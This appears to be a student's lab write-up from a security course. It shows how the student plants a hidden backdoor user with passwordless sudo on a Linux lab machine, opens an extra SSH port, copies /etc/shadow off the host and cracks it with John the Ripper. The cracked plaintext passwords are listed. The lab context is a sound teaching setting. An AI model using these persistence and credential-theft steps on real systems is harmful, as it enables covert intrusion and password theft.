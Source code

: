 Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

	root:~\ $ sudo useradd -M 666 sysd

* I was wondering what the consequences of creating a user with a uid that was already in use would be. So like, sudo useradd -Mou <uid in use> <username>

Is there any reason to do that, or is it just as much trouble as it sounds?

Give your secret user a password:

	root:~\ $ sudo passwd sysd

Give your secret user a system UID < 1000:

I actually gave my sysd user a UID of 666 in the first step, but:
	root:~\ $ sudo usermod sysd -u <number less than 1000>

Give your secret user the same GID:

	root:~\ $ sudo usermod sysd -g 666

Give your secret user full sudo access without the need for a password:

	root:~\ $ sudo visudo
		#Unit_06 Privs for the badman
		sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password:

	root:home\ $ su sysd
	$ sudo -l
	Matching Defaults entries for sysd on scavenger-hunt:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User sysd may run the following commands on scavenger-hunt:
		(ALL) NOPASSWD: ALL

At no time was I asked for sysd password.

Step 2: Smooth Sailing


Edit the sshd_config file:

	root:/\ $ sudo nano etc/ssh/sshd_config
		# The strategy used for options in the default sshd_config shipped with
		# OpenSSH is to specify options with their default value where
		# possible, but leave them commented.  Uncommented options override the
		# default value.

		Port 22
		Port 2222
		#AddressFamily any
		#ListenAddress 0.0.0.0
		#ListenAddress ::

Step 3: Testing Your Configuration Update


Restart the SSH service:

	root:/\ $ sudo systemctl restart sshd

Exit the root account:

	root:/\ $ exit

SSH to the target machine using your sysd account and port 2222:

	sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

Use sudo to switch to the root user:

	$ sudo -s
	# whoami
	root

Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

	sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

* I don't think I even checked to see if the target machine had JtR, I just decided to use sftp after creating a copy of the shadow file and using chmod to make sure I had permissions.

	sysadmin@UbuntuDesktop:/$ ssh sysd@192.168.6.105 -p 2222
	$ sudo -s
	# whoami
	root
	# sudo cp etc/shadow tmp/shadow-copy
	# exit
	$ exit
	sysadmin@UbuntuDesktop:/$ sftp -oPort=2222 sysd@192.168.6.105
	sysd@192.168.6.105's password:
	Connected to 192.168.6.105.
	sftp> cd tmp
	sftp> get shadow-copy
	Fetching /tmp/shadow-copy to shadow-copy
	/tmp/shadow-copy                              100% 1592   794.0KB/s   00:00
	sftp> byee
	Invalid command.
	sftp> bye
	sysadmin@UbuntuDesktop:/$ john shadow-copy
	Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	computer         (stallman)
	freedom          (babbage)
	trustno1         (mitnik)
	dragon           (lovelace)
	lakers           (turing)
	passw0rd         (sysadmin)
	Goodluck!        (student)
	
